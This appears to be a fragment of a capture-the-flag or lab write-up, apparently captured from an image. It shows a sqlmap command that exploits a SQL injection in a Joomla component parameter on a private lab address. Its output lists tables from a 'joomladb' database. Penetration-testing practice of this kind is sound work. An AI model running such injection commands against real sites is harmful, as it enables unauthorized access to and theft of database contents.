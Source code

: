 ```bash
sqlmap -u "http://192.168.56.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

```txt
Database: joomladb
[76 tables]
+---------------------+
| #__assets           |
| #__associations     |
| #__banner_clients   |
| #__banner_tracks    |
| #__banners          |
| #__bsms_admin       |
| #__bsms_books       |
| #__bsms_comments    |
| #__bsms_locations   |
| #__bsms_mediafiles  |
| #__bsms_message_typ |
| #__bsms_podcast     |
| #__bsms_series      |
| #__bsms_servers     |
| #__bsms_studies     |
| #__bsms_studytopics |
| #__bsms_teachers    |
| #__bsms_templatecod |
| #__bsms_templates   |
| #__bsms_timeset     |
| #__bsms_topics      |
| #__bsms_update      |
| #__categories       |
| #__contact_details  |
| #__content_frontpag |
| #__content_rating   |
| #__content_types    |
| #__content          |
| #__contentitem_tag_ |
| #__core_log_searche |
| #__extensions       |
| #__fields_categorie |
| #__fields_groups    |
| #__fields_values    |
| #__fields           |
| #__finder_filters   |
| #__finder_links_ter |
| #__finder_links     |
| #__finder_taxonomy_ |
| #__finder_taxonomy  |
| #__finder_terms_com |
| #__finder_terms     |
| #__finder_tokens_ag |
| #__finder_tokens    |
| #__finder_types     |
| #__jbsbackup_timese |
| #__jbspodcast_times |
| #__languages        |
| #__menu_types       |
| #__menu             |
| #__messages_cfg     |
| #__messages         |
| #__modules_menu     |
| #__modules          |
| #__newsfeeds        |
| #__overrider        |
```